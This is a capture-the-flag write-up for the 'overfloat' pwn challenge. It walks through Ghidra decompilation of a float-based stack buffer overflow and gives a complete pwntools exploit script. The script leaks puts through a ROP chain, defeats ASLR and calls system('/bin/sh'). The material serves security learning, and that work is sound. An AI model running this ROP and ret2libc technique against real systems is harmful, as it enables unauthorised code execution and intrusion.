 # overfloat (pwn)

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/09502d7e-8804-475d-ae92-0c3d3a3b5c22)  

Running the program, it prints a pretty banner and then asks for directions.
We're going on a ballon trip!  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/5b95a6ea-95dd-4b7d-b6b7-059b7a54a3e5)  

Let's look at it in ghidra to see what is going on  

```c
undefined8 main(void)
{
  float buf [12];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  alarm(0x1e);
  __sysv_signal(0xe,timeout);
  puts(
      "                                 _ .--.        \n                                ( `    )       \n                             .-\'      `--,     \n                  _..----.. (             )`-. \n                .\'_|` _|` _|(  .__,           )\n               /_|  _|  _|  _(        (_,  .-\' \n              ;|  _|  _|  _|  \'-\'__,--\'`--\'    \n              | _|  _|  _ |  _| |               \n          _   ||  _|  _|  _|  _|               \n        _( `--.\\_|  _|  _|  _|/               \n     .-\'       )--,|  _|  _|.`                 \n    (__, (_      ) )_|  _| /                   \n      `-.__.\\ _,--\'\\|__|__/                  \n                    ;____;                     \n                     \\YT/                     \n                      ||                       \n                     |\"\"|                    \n                     \'==\'                      \n\nWHERE WOULD YOU LIKE TO GO?"
      );
  memset(buf,0,40);
  chart_course(buf);
  puts("BON VOYAGE!");
  return 0
}
```
The only interesting thing in the main function is there is a 48 byte buffer, and that buffer is being passed to `char_course()`.  
It is not initially obvious what that buffer contains, but I've retyped it to contain `float` types for reasons we will see later.  

Let's look at `chart_course`  

```c

void chart_course(float *vuln)

{
  int strncmp_res;
  double dVar1;
  char buf [104];
  float input_asfloat;
  uint i;
  
  i = 0;
  do {
    if ((i & 1) == 0) {
      strncmp_res = (int)i / 2;
      printf("LAT[%d]: ",
             (ulong)(uint)(strncmp_res +
                          ((strncmp_res / 10 + ((int)(i - ((int)i >> 0x1f)) >> 0x1f)) -
                          (strncmp_res >> 0x1f)) * -10));
    }
    else {
      strncmp_res = (int)i / 2;
      printf("LON[%d]: ",
             (ulong)(uint)(strncmp_res +
                          ((strncmp_res / 10 + ((int)(i - ((int)i >> 0x1f)) >> 0x1f)) -
                          (strncmp_res >> 0x1f)) * -10));
    }
    fgets(buf,100,stdin);
    strncmp_res = strncmp(buf,"done",4);
    if (strncmp_res == 0) {
      if ((i & 1) == 0) {
        return;
      }
      puts("WHERES THE LONGITUDE?");
      i = i - 1;
    }
    else {
      dVar1 = atof(buf);
      input_asfloat = (float)dVar1;
      memset(buf,0,100);
      vuln[(int)i] = input_asfloat;
    }
    i = i + 1;
  } while( true );
```

Things to point out:
- there is another buffer, but we are using fgets properly so that buffer is not vulnerable.
- `atof()` is argument to float, so our input will be interpreted as a float.
- we write until we input the string `done`
- out input is written to the passed buffer of 48 bytes

With this, we can tell that we can just not send the `done` string and keep writing into memory, effectively a buffer overflow.  

## Exploitation  
The first thing we need to do, is figure out how to write specific bytes to memory.  
Since our arguments will be interpreted as floats, we can just take the bytes we want, transform them to a floating point number, and then send that number.  
```python
def bytes_to_float(b):
    _ = struct.unpack('f', b)[0]
    return bytes(str(_),'ascii')
```

However, floats are 4 bytes, whereas we are in a 64 bit architecture. So we can separate qwords into lower and higher bits and send them separately.  
```python
def write_qword(b, io = io):
    upper = (b >> 32) & 0xffffffff
    lower = b & 0xffffffff

    s_upper = bytes_to_float(p32(upper))
    s_lower = bytes_to_float(p32(lower))

    io.sendline(s_lower)
    io.sendline(s_upper)
```

Ghidra tells us that our buffer is 56 bytes away from the return address, or 14 floats worth of data.  
Then we can do standard ROP to leak the address of `puts`, bypass ASLR and then perform `ret2system`.  
Same technique as in [svc](https://github.com/AndreQuimper/Writeups/blob/main/Nightmare/2.Stack_Buffer_Overflows/DynamicLinking/csawquals17_svc.md).  

Additionally, I was feeling generous so I decided to call `exit(0)` after the call to `system` so that the program does not crash.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template overfloat
from pwn import *
import struct
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'overfloat')
libc = ELF('libc-2.27.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x3fe000)
# RUNPATH:  b'.'

io = start()

def bytes_to_float(b):
    _ = struct.unpack('f', b)[0]
    return bytes(str(_),'ascii')


def write_qword(b, io = io):
    upper = (b >> 32) & 0xffffffff
    lower = b & 0xffffffff

    s_upper = bytes_to_float(p32(upper))
    s_lower = bytes_to_float(p32(lower))

    io.sendline(s_lower)
    io.sendline(s_upper)

# padding until return address
floats_to_pad = 14

for i in range(floats_to_pad//2): # since we are writing quadwords we write two floats per iteration
    write_qword(0x4141414141414141)

# rop to perform got leak
rop = ROP(exe)
POP_RDI = rop.find_gadget(['pop rdi','ret'])[0]

write_qword(POP_RDI)
write_qword(exe.got['puts'])
write_qword(exe.plt['puts']) # call puts@plt to print puts@got
write_qword(exe.sym['main']) # jump back to main

io.sendline(b'done') # execute ret

io.recvuntil(b'BON VOYAGE!\n')
leak = int.from_bytes(io.recvline()[:-1],'little')
log.success('puts @ '+hex(leak))


# rop to perform ret2system
libc.address = leak - libc.sym['puts']
binsh = next(libc.search(b'/bin/sh'))
ret = rop.find_gadget(['ret'])[0]


for i in range(floats_to_pad//2): # since we are writing quadwords we write two floats per iteration
    write_qword(0x4141414141414141)

write_qword(ret)
write_qword(POP_RDI)
write_qword(binsh)
write_qword(libc.sym['system']) # execute system('/bin/sh')

write_qword(POP_RDI) # make the program exit gracefully
write_qword(0)
write_qword(libc.sym['exit']) # so program doesn't crash

io.sendline(b'done')

io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/4b0c70be-a655-403b-915c-f4ba5d3c6cc7)


